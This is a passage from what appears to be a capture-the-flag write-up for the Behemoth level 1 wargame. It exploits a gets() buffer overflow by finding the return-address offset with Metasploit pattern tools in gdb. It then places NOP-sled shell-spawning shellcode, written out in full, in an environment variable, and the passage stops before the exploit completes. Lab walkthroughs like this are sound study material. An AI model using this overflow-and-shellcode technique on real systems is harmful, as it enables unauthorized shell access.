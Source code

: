    0x0804846f <+36>:	call   0x8048320 <puts@plt>
   0x08048474 <+41>:	add    $0x4,%esp
   0x08048477 <+44>:	mov    $0x0,%eax
   0x0804847c <+49>:	leave  
   0x0804847d <+50>:	ret 
   
```
We can see that we have a very simple program that get's our input and prints it. It uses a very old and insecure function 'gets'. Reading it's manual (man gets) will let us know that nobody should EVER use this functoin, as it's insecure.
Anyway, we want to know how much we have to go into the stack until we overwrite the return address. We can use Kali's pattern create for this:
```
root@kali:~# msf-pattern_create -l 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```
now we want to put this input into our program being executed in gdb:
```
(gdb) r
Starting program: /behemoth/behemoth1 
Password: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x34634133 in ?? ()
```
Now we use pattern_offset to know the input's length:
```
root@kali:~# msf-pattern_offset -q 0x34634133
[*] Exact match at offset 71
```
Okay, the length of the payload should be 71 + 4 bytes for the address we want to jump into. Now, let's craft our payload. We want to use NOP's slide, because usually the memory is mapped slightly different, so we can guarantee that we will land somewhere in our payload. Disclaimer: I won't put my shellcode inside the input itself, because for some reason, my shellcode overwrites itself / never lands in the correct address. Therefore, there is a better technique to do this: put the shellcode inside an environment variable. This way, we are not limited by the size of the input, thus increasing our chance to land into our shellcode. So in sum up:
1) we will craft a shellcode with a lot's of NOP's in a special environmental variable. 
2) get the address of the environmental variable
3) send an input of 71 chars + the address of the environ
4) we should get our shell

Using shell-storm, we get a basic shell in a size of 25 bytes: http://shell-storm.org/shellcode/files/shellcode-585.php
Now we set our environ;
```
behemoth1@behemoth:/tmp/intersys$ export EGG=$(python -c "print('\x90'*1000+'\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+\x90'*1000)")
behemoth1@behemoth:/tmp/intersys$ $EGG
-bash: �����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������
             [1�1�1Ұ
                    �����/bin/sh: File name too long